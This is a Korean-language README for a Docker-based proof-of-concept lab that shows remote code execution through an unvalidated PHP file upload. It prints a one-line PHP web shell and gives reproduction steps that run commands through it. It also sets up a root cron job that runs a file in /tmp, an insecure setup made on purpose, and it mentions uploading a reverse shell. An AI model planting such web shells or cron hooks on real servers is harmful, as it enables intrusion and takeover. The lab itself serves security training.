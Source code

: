 # 1. RCE (File Upload) 취약점 이란?

파일 업로드 취약점은 서버가 업로드된 파일에 대해 충분한 검증 없이 저장 및 실행하도록 허용하는 보안 문제로써 공격자는 악성 파일을 업로드하여 원격 명령 실행, 리버스 쉘 획득 등 다양한 공격을 수행할 수 있습니다

# 2. PoC 개요

본 PoC는 파일 업로드 취약점을 이용해 RCE를 재현합니다.

공격자가 악성 PHP 웹쉘을 업로드하고 이를 실행하여 서버에서 임의 명령어를 실행할 수 있음을 실습 환경에서 확인할 수 있습니다.

# 3. PoC 환경 구성

- 언어 및 프레임워크 : PHP 8.2 (내장 웹서버 사용)
- PoC 구성
    - `upload.php`: 파일 업로드 및 실행 가능한 PHP 웹쉘 포함
    - `Dockerfile`: 도커 이미지 생성용 설정
- Docker 환경
    - Docker 이미지 빌드 후 컨테이너 실행 시 PHP 내장 웹서버가 0.0.0.0:8080 포트에서 실행
    - 업로드 파일은 uploads/ 폴더에 원본 파일명으로 저장 (검증 및 난독화 미실시)

# 4. PoC 실행 방법

1. Docker 이미지 가져오기
    
    ```bash
    $ docker pull dukbong/poc:2025-06-fileupload
    ```
    
2. Docker 컨테이너 실행
    
    ```bash
    docker run --name fileupload -p 8080:8080 dukbong/poc:2025-06-fileupload
    ```

3. Docker 환경 구성 ( 다양한 취약점을 위한 구성 )

    1. root 권한으로 접속
    ```bash
    docker exec -it --user root fileupload /bin/bash
    ```
    2. root 권한으로 cron 작성
    ```bash
    vi /etc/cron.d/fileupload

    * * * * * root /tmp/fileupload
    ```
    3. 권한 성정
    ```bash
    chmode 744 /etc/cron.d/fileupload
    ```
    4. cron 재시작
    ```bash
    service cron restart
    ```
    
3. 웹 애플리케이션 접속
    
    ```bash
    http://localhost:8080
    ```
    
4. 주요 엔드포인트
    
    | 경로 | 설명 | 메소드 | 비고 |
    | --- | --- | --- | --- |
    | / | 파일 업로드 페이지 | GET, POST | 취약점 시연 대상 |
    | /uploads/{file_name} | 파일 경로 | GET | 취약점 시연 대상 |

5. 악성 코드
    
    ```php
    <?php
        system($_GET['cmd']);
    ?>
    ```

# 5. 재현 절차

1. 웹 페이지 접속 후 임의의 PHP 웹쉘 파일 (예: `shell.php`) 업로드 합니다.
2. 업로드 성공 후 `/uploads/shell.php?cmd=id` 형태로 접근합니다.
3. 서버에서 명령어가 실행되어 결과가 출력됨을 확인합니다.
4. 리버스 쉘 페이로드도 동일 방식으로 업로드 후 실행 가능합니다.

# 6. 느낀점 및 기술적 이해
